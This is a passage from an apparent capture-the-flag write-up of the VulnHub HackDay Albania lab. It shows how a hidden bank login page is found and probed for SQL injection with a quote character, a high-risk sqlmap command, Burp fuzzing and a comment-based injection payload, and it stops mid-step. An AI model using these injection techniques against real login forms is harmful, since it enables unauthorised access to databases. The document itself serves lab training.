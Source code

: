 Checking the corresponding logfile shows that the image could not be found in folder `unisxcudkqjydw`.

```
root@kali:~/albania# cat unisxcudkqjydw.log
--2016-11-24 10:19:45--  http://192.168.56.101:8008/unisxcudkqjydw/background.jpg
Connecting to 192.168.56.101:8008... connected.
HTTP request sent, awaiting response... 404 Not Found
2016-11-24 10:19:45 ERROR 404: Not Found.
```

So lets call this folder in the browser to see, why this error happened. This directory is the only one with no meme in it, but a little hint:

```
IS there any /vulnbank/ in there ???
```

So after calling

```
http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/
```

We are presented a login page for Secure Bank.

[![Login](/img/vulnhub_hackday_albania/login_thumb.png)](/img/vulnhub_hackday_albania/login.png)

I first tried to log in with various default passwort combinations but none of them worked.

After putting a single `'` in the username field, the application responds with an PHP error message:

```
Warning: mysqli_fetch_assoc() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/unisxcudkqjydw/vulnbank/client/config.php on line 102
```

**BOOM** looks like SQL-Injection. As I'm lazy I fired up SQLMAP to do the job for me:

```
sqlmap -u "http://192.168.56.101:8008/unisxcudkqjydw/vulnbank/client/login.php" --data "username=&password=" --dbms mysql --level 5 --risk 3
```

Unfortunately SQLMAP was only able to verify the SQL-Injection but not exploit it - so I had to do it manually.

Sending the request to Burp Intruder I tried the SQL Injection Fuzzing Payloads and it looks like the application is filtering some SQL keywords like "AND" and "OR".

Assuming the query looks something like this

```php
select junk from users where username='$_GET["username"]' and password='$_GET["password"]';
```

a simple query like

```
username'; --
```
